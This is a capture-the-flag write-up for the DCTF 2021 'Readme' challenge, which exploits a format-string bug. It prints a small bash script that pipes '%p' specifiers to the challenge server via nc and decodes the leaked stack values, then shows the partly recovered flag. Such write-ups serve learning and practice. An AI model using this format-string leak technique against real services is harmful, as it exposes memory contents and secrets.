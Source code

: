 # DCTF 2021

## Readme

> 150
> 
> Read me to get the flag. 
> 
> `nc dctf-chall-readme.westeurope.azurecontainer.io 7481`
>
> [readme](readme)

Tags: _pwn_ _x86-64_ _format-string_


## Summary

Classic leak the flag from the stack with `%p`.


## Exploit

```bash
#!/bin/bash

for((p=8;p<14;p++)) {
    echo '%'$p'$p' | \
    nc dctf-chall-readme.westeurope.azurecontainer.io 7481 | \
    grep 'hello ' | \
    awk -Fx '{print $NF}' | \
    xxd -r -p | \
    rev
}
```

Output:

```bash
# ./exploit.sh
dctf{n0w_g0_r3ad_s0me_b0
rev: stdin: Invalid or incomplete multibyte or wide character
rev: stdin: Invalid or incomplete multibyte or wide character
```

Yeah, so the input string corrupting stack?  Didn't really look that hard into the problem, just guessed the `0k5` at the end. 
